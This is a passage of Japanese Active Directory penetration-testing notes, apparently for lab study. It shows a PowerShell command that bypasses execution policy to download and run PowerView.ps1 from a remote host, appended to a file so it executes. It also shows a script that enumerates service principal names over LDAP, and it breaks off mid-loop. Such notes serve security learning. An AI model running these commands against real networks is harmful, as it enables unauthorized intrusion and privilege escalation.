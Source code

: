     * ファイルを編集し末尾に実行したいコマンドを付ける
  
      ![image-20230109174056580](img/ActiveDirectory/image-20230109174056580.png)
  
    ```
    powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
    ```
  
    ![image-20230109174105585](img/ActiveDirectory/image-20230109174105585.png)
  
* サービスプリンシパルの調査

  ```powershell
  $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
  $PDC = ($domainObj.PdcRoleOwner).Name
  
  $SearchString = "LDAP://"
  $SearchString += $PDC + "/"
  
  $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
  
  $SearchString += $DistinguishedName
  
  $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
  
  $objDomain = New-Object System.DirectoryServices.DirectoryEntry
  
  $Searcher.SearchRoot = $objDomain
  
  $Searcher.filter="serviceprincipalname=*http*"
  
  $Result = $Searcher.FindAll()
  
  Foreach($obj in $Result)
  {
      Foreach($prop in $obj.Properties)
      {
  ```